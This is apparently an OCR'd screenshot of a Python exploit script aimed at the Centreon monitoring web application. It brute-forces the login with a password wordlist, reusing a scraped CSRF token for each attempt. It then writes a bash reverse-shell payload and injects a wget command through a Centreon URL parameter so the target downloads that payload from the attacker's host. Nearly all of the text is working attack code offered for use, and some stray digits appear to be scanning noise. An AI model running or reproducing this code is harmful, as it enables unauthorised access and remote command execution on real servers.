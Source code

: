 ```py
    login_url = 'http://' + rhost + '/centreon/'
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")04642281150

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s [+]" %(username,line))
            print("[+] Now, let's get RCE!!! [+]")
            break

def mountPayload(lhost,lport):
    print("[+] Let's mount the Payload!!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("payload.txt", "a")
    f.write(reverse)
    f.close()
    print("[+] Payload wrote to payload.txt[+]")

def uploadMalicious(rhost,lhost):
    payload = "wget %s/payload.txt -O /tmp/payload.sh" %lhost
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=%s&o=p&min=1" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    os.system("rm payload.txt")
    
```